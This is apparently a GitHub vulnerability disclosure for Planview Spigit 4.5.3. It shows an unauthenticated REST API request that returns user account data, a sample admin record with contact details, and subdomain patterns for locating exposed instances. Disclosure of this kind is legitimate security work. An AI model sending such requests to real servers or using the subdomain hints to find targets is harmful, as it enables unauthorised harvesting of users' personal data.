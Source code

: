 # Spigit Content Management Software by PlanView - Vulnerability Disclosure - CVE - Proof of Concept 
REST API in Planview Spigit 4.5.3 allows remote unauthenticated attackers to query sensitive user accounts data.

Sample request:

```
GET /PATH/api/v1/users/1 HTTP/1.1
Host: HOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 6


```
--
Sample Data:

```{"id":1,"user_name":"admin","first_name":"Spigit","last_name":"Administrator","primary_email":"donotuse@spigit.com","web_site":"","phone":"","mobile":"07071186473","fax":"","address1":"100 Rhosddu Rd","address2":"","city":"FERNHURST","state":"","zip":"GU27 0PL","country":"UK","bio":"not your business.","user_since":"2014-10-24T00:44:52Z","disabled":false,"super_admin":true,"identity_removed":false,"attributes":{},"links":[{"rel":"self","href":"https://HOSTg/api/v1/users/1"},{"rel":"user roles","href":"https://HOST/api/v1/users/1/roles"}]}```


This CMS is used by Fortune 500 companies and likely hosted on subdomains that start with idea.* ideas.* innovation.* projects.*

The purpose of this report is to get the Vendor to make Spigit secure by default, no unauthenticated nor unprivileged account should be able to query account details that are not visible by design on the CMS e.g. e-mail addresses, usernames.

![alt text](https://github.com/FlaviuPopescu/Spigit-PoC/blob/main/2021-08-04%2017_48_12.png?raw=true)
